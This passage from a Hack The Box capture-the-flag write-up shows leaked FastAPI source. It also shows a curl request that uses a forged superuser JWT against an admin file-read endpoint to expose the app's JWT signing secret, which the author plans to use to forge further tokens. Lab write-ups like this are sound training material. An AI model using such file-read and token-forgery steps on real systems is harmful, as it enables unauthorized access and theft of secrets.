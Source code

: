 ```
{"file":"import asyncio\n\nfrom fastapi import FastAPI, APIRouter, Query, HTTPException, Request, Depends\nfrom fastapi_contrib.common.responses import UJSONResponse\nfrom fastapi import FastAPI, Depends, HTTPException, status\nfrom fastapi.security import HTTPBasic, HTTPBasicCredentials\nfrom fastapi.openapi.docs import get_swagger_ui_html\nfrom fastapi.openapi.utils import get_openapi\n\n\n\nfrom typing import Optional, Any\nfrom pathlib import Path\nfrom sqlalchemy.orm import Session\n\n\n\nfrom app.schemas.user import User\nfrom app.api.v1.api import api_router\nfrom app.core.config import settings\n\nfrom app import deps\nfrom app import crud\n\n\napp = FastAPI(title=\"UHC API Quals\", openapi_url=None, docs_url=None, redoc_url=None)\nroot_router = APIRouter(default_response_class=UJSONResponse)\n\n\n@app.get(\"/\", status_code=200)\ndef root():\n    \"\"\"\n    Root GET\n    \"\"\"\n    return {\"msg\": \"UHC API Version 1.0\"}\n\n\n@app.get(\"/api\", status_code=200)\ndef list_versions():\n    \"\"\"\n    Versions\n    \"\"\"\n    return {\"endpoints\":[\"v1\"]}\n\n\n@app.get(\"/api/v1\", status_code=200)\ndef list_endpoints_v1():\n    \"\"\"\n    Version 1 Endpoints\n    \"\"\"\n    return {\"endpoints\":[\"user\", \"admin\"]}\n\n\n@app.get(\"/docs\")\nasync def get_documentation(\n    current_user: User = Depends(deps.parse_token)\n    ):\n    return get_swagger_ui_html(openapi_url=\"/openapi.json\", title=\"docs\")\n\n@app.get(\"/openapi.json\")\nasync def openapi(\n    current_user: User = Depends(deps.parse_token)\n):\n    return get_openapi(title = \"FastAPI\", version=\"0.1.0\", routes=app.routes)\n\napp.include_router(api_router, prefix=settings.API_V1_STR)\napp.include_router(root_router)\n\ndef start():\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")\n\nif __name__ == \"__main__\":\n    # Use this for debugging purposes only\n    import uvicorn\n\n    uvicorn.run(app, host=\"0.0.0.0\", port=8001, log_level=\"debug\")\n"} 
```

Again really messy output, but we can see the `JWT_SECRET`! `SuperSecretSigningKey-HTB`
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://10.10.11.161/api/v1/admin/file -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUwNzUzNjk2LCJpYXQiOjE2NTAwNjI0OTYsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.4EsnOsihmJTkzdPEPZEA78jHNXEkZ89UBUXMIf2wT_E" -H 'Content-Type: application/json' -d '{"file": "/home/htb/uhc/app/core/config.py"}'
{"file":"from pydantic import AnyHttpUrl, BaseSettings, EmailStr, validator\nfrom typing import List, Optional, Union\n\nfrom enum import Enum\n\n\nclass Settings(BaseSettings):\n    API_V1_STR: str = \"/api/v1\"\n    JWT_SECRET: str = \"SuperSecretSigningKey-HTB\"\n    ALGORITHM: str = \"HS256\"\n\n    # 60 minutes * 24 hours * 8 days = 8 days\n    ACCESS_TOKEN_EXPIRE_MINUTES: int = 60 * 24 * 8\n\n    # BACKEND_CORS_ORIGINS is a JSON-formatted list of origins\n    # e.g: '[\"http://localhost\", \"http://localhost:4200\", \"http://localhost:3000\", \\\n    # \"http://localhost:8080\", \"http://local.dockertoolbox.tiangolo.com\"]'\n    BACKEND_CORS_ORIGINS: List[AnyHttpUrl] = []\n\n    @validator(\"BACKEND_CORS_ORIGINS\", pre=True)\n    def assemble_cors_origins(cls, v: Union[str, List[str]]) -> Union[List[str], str]:\n        if isinstance(v, str) and not v.startswith(\"[\"):\n            return [i.strip() for i in v.split(\",\")]\n        elif isinstance(v, (list, str)):\n            return v\n        raise ValueError(v)\n\n    SQLALCHEMY_DATABASE_URI: Optional[str] = \"sqlite:///uhc.db\"\n    FIRST_SUPERUSER: EmailStr = \"root@ippsec.rocks\"    \n\n    class Config:\n        case_sensitive = True\n \n\nsettings = Settings()\n"}   
```

Let's use that key to give us the Debug flag on our token
